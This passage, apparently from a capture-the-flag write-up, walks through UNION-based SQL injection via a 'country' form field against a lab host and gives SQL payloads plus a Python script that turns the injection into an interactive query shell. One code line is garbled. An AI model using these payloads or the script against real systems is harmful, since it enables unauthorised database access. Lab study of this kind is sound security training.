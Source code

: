 

A UNION injection is when I add a UNION statement to the query allowing
me to make a new query and append the results to the intended query.
I'll need to match the same number of columns, or the query will error.
I'll start with `Brazil' UNION SELECT 1;-- -`. That would make the
query:



    SELECT username from players where country = 'Brazil' UNION SELECT 1;-- -';



I'll need to use another user here, or I still get some weird results.
I'll submit the request, and then load the `account.php` page with that
cookie. It worked:

![](/img/image-20210913210922606.png)

That 1 at the end is the result of the union.

If I change the 1 to `user()`, I get the name of the user for the DB:



    username=0xdfaaaaaaa&country=Brazil' union select user();-- -



This results in:

![](/img/image-20210913211039611.png)

### Script SQLI

This is another example where I could keep working out of Repeater, but
it's a pain, and if I'm doing enumeration for any period of time, it's
nice to have a shell. This is what I came up with:



    #!/usr/bin/env python3

    import random
    import requests
    from bs4 import BeautifulSoup
    from cmd import Cmd


    class Term(Cmd):

        prompt = "> "

        def default(self, args):
            name = f'0xdf-{random.randrange(1000000,9999999)}'
            resp = requests.post('http://10.10.11.116/',
                    headers={"Content-Type": "application/x-www-form-urlencoded"},
                    data={"username": name, "country": f"' union {args};-- -"})
            soup = BeautifulSoup(resp.text, .md.parser')
            if soup.li:
                print('\n'.join([x.text for x in soup.findAll('li')]))
